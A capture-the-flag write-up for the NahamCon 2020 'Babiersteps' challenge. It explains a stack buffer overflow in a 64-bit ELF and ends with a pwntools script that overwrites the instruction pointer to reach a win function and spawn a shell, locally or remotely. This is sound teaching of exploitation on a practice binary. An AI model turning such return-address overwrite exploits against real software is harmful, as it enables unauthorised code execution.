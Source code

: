 This is my writeup for the "Babiersteps" challange from NahamCon 2020.

After downloading the babier file we run the ```file ./babiersteps``` command wich gives the folowing output:
![alt text](images/file.png?raw=true "File")

We can see that the barbier file is a 64 bit elf file.

When we run a obj dump (```bjdump ./babiersteps -d```). we can see that the program contains a win function at address ```0x4011c9.```
![alt text](images/segfault.png?raw=true "win")


After making the file executable and running we are shown the text "Everyone has heard of gets, but have you heard of scanf?".
If we input some random characters the program wil seemingly do nothing and shut down. If we give the program an input thats over 120 bytes the progrem wil return a segment fault.
![alt text](images/segfault.png?raw=true "seg")

If we open the program in gdb can get a better look at what is going on. ```gdb ./babiersteps``` (Note: I am using geff extention for gdb).
When we imput a lot of A's (300) we can see that we clotter most of the stack but not the RIP (instruction pointer) wich we want to control and point to our win function.

Because the file is a 64 bit elf the RIP address has to be a 48 bit canonical address wich means the address has to be in the range ```0x0000000000000000``` to ```0x00007FFFFFFFFFFF``` and ```0xFFFF800000000000``` to ```0xFFFFFFFFFFFFFFFF```. otherwise the address wont be able to clutter the RIP. If we input a bunch of A's we are overwriting the rip with a non-canonical address. If we however run the program with 120 A's up to the point of getting the segfault(offset) and add a 6 bytes canonial address of 6 B's ```0x0000424242424242``` to the end we can see we can control the RIP.
![alt text](images/control.png?raw=true "control")

Now all we have to do is point the address to our win function and hope we get the flag. Our win function was located at ```0x4011c9.```.
We can use pyton to give us the addres in little endian ```python3 -c 'import struct;print(struct.pack("<I",0x4011c9))'```. We then need to add \x00\ 5 times to make the address canonical. If we input this address after our offset we can point to the win function.

I made a little python script using pwn tools to handle the program localy or remotly.

```
import argparse
from pwn import *
import struct;

offset = b"A"*120
rip = b"\xc9\x11@\x00\x00\x00\x00\x00\x00"

payload = b"".join([offset,rip]) 

parser = argparse.ArgumentParser()
parser.add_argument(
        '--host',
        type=str,
        help='The host name or IP address to connect to'
        )
parser.add_argument(
        '--port',
        type=int,
        help='The port for the service to connect to'
        )
parser.add_argument(
        '--file',
        type=str,
        help='Elf file to exploit'
        )

args = parser.parse_args()

if args.host and args.port:
        p = remote(args.host, args.port)

elif args.file and not(args.host) and not(args.port):
        elf = ELF(args.file)
        libc = elf.libc
        p=process(elf.path)

else:
        print("No arguments supplied")
        exit()


p.recvuntil('?')
p.sendline(payload)
p.interactive()
```

If we run this program localy ```python3 payload.py --file ./babiersteps```. We can see it spawned a shell and we can cat out the flag.
![alt text](images/flag.png?raw=true "flag")